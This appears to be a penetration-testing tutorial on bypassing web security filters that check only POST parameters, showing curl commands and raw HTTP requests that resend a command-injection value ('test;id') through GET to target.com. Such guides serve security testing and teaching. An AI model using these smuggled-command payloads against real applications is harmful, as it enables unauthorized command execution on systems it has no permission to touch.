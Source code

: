 **Target:** Web applications with security filters that only check specific HTTP methods

**Common Vulnerable Setup:**
```
POST parameters → Security filter active (blocks injections)
GET parameters  → Security filter bypassed (injections allowed)
```

### Vulnerability Background

**Insecure Coding Patterns:**
- Security filters only check `$_POST` parameters
- Injection detection limited to specific HTTP methods
- Inconsistent input validation across methods
- Missing cross-method security controls

### Identification Phase

**Step 1: Trigger Security Filter**
```bash
# Try command injection with POST (should be blocked)
curl -X POST http://target.com/ -d "filename=test;id"

# Expected response: "Malicious Request Denied!"
```

**Step 2: Test Different HTTP Methods**
```bash
# Test same payload with GET method
curl http://target.com/?filename=test;id

# May bypass filter if only POST is filtered
```

### Exploitation Techniques

#### Method 1: POST to GET Conversion

**Scenario:** File upload form with injection protection

**Original Request (Blocked):**
```http
POST / HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

filename=test;
```

**Response:** `Malicious Request Denied!`

**Bypass Request (Successful):**
```http
GET /?filename=test; HTTP/1.1
Host: target.com
```

